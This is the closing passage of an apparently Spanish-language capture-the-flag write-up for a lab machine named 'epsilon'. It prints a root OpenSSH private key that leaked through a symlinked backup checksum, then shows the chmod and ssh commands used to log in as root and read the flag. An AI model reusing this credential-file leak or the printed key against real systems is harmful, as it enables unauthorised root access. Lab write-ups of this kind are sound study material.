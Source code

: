 ```
r1yPwVQeN5r6l134FEKppGOtoJiJn+MYT+EVsBwjklPJwyb9rNvorDHmCFxEgfJdcFj/RI
j6NDVpSfFj3tp84kgevL2Y0EucsS0bUL5Er6RwalvdH6x1paRtXl1SvEvQdNT7hKMUI0tH
zQEmds4RvEydVwGpsU92LjoV9iurLB9+llWEizhf9ig5WbGycscBtFfEJIBbtAz2dFfHJL
odKPi5uuDxV5UsjhXG/9UlP8MIneIvWmM4TTkDsQ0j4dr5l8Tw5AdP3SwDusAZTmpGLM67
lSzJJ4D/PUDiiyBmrJsyFPNeiirn1HS0hXM4oPemlUcXhXFQB4Ita8tTu066AiCXsIb7If
CP5HpgITR48Ld4phrpVJpSMP7NXKXQAAAAMBAAEAAAGBAMULlg7cg8oaurKaL+6qoKD1nD
Jm9M2T9H6STENv5//CSvSHNzUgtVT0zE9hXXKDHc6qKX6HZNNIWedjEZ6UfYMDuD5/wUsR
EgeZAQO35XuniBPgsiQgp8HIxkaOTltuJ5fbyyT1qfeYPqwAZnz+PRGDdQmwieIYVCrNZ3
A1H4/kl6KmxNdVu3mfhRQ93gqQ5p0ytQhE13b8OWhdnepFriqGJHhUqRp1yNtWViqFDtM1
lzNACW5E1R2eC6V1DGyWzcKVvizzkXOBaD9LOAkd6m9llkrep4QJXDNtqUcDDJdYrgOiLd
/Ghihu64/9oj0qxyuzF/5B82Z3IcA5wvdeGEVhhOWtEHyCJijDLxKxROuBGl6rzjxsMxGa
gvpMXgUQPvupFyOapnSv6cfGfrUTKXSUwB2qXkpPxs5hUmNjixrDkIRZmcQriTcMmqGIz3
2uzGlUx4sSMmovkCIXMoMSHa7BhEH2WHHCQt6nvvM+m04vravD4GE5cRaBibwcc2XWHQAA
AMEAxHVbgkZfM4iVrNteV8+Eu6b1CDmiJ7ZRuNbewS17e6EY/j3htNcKsDbJmSl0Q0HqqP
mwGi6Kxa5xx6tKeA8zkYsS6bWyDmcpLXKC7+05ouhDFddEHwBjlCck/kPW1pCnWHuyjOm9
eXdBDDwA5PUF46vbkY1VMtsiqI2bkDr2r3PchrYQt/ZZq9bq6oXlUYc/BzltCtdJFAqLg5
8WBZSBDdIUoFba49ZnwxtzBClMVKTVoC9GaOBjLa3SUVDukw/GAAAAwQD0scMBrfeuo9CY
858FwSw19DwXDVzVSFpcYbV1CKzlmMHtrAQc+vPSjtUiD+NLOqljOv6EfTGoNemWnhYbtv
wHPJO6Sx4DL57RPiH7LOCeLX4d492hI0H6Z2VN6AA50BywjkrdlWm3sqJdt0BxFul6UIJM
04vqf3TGIQh50EALanN9wgLWPSvYtjZE8uyauSojTZ1Kc3Ww6qe21at8I4NhTmSq9HcK+T
KmGDLbEOX50oa2JFH2FCle7XYSTWbSQ9sAAADBAOD9YEjG9+6xw/6gdVr/hP/0S5vkvv3S
527afi2HYZYEw4i9UqRLBjGyku7fmrtwytJA5vqC5ZEcjK92zbyPhaa/oXfPSJsYk05Xjv
6wA2PLxVv9Xj5ysC+T5W7CBUvLHhhefuCMlqsJNLOJsAs9CSqwCIWiJlDi8zHkitf4s6Jp
Z8Y4xSvJMmb4XpkDMK464P+mve1yxQMyoBJ55BOm7oihut9st3Is4ckLkOdJxSYhIS46bX
BqhGglrHoh2JycJwAAAAxyb290QGVwc2lsb24BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Observamos que al abrir el checksum, ya no es un sha1 del archivo tar original, sino la id_rsa de root debido al symlink. Con esto ahora solo falta copiarnosla y darle el privilegio 600 y entrar con ssh:
```
nano id_rsa
chmod 600 id_rsa

ssh -i id_rsa root@10.10.11.134
```
```
root@epsilon:~# whoami
root
```

Hemos logrado entrar como el usuario root, vamos a buscarla la flag:

```
root@epsilon:~# cat /root/root.txt
fadbe3960616546fc32f5a2
```

¡Listo!, hemos terminado la máquina.

Nos vemos, hasta la próxima.
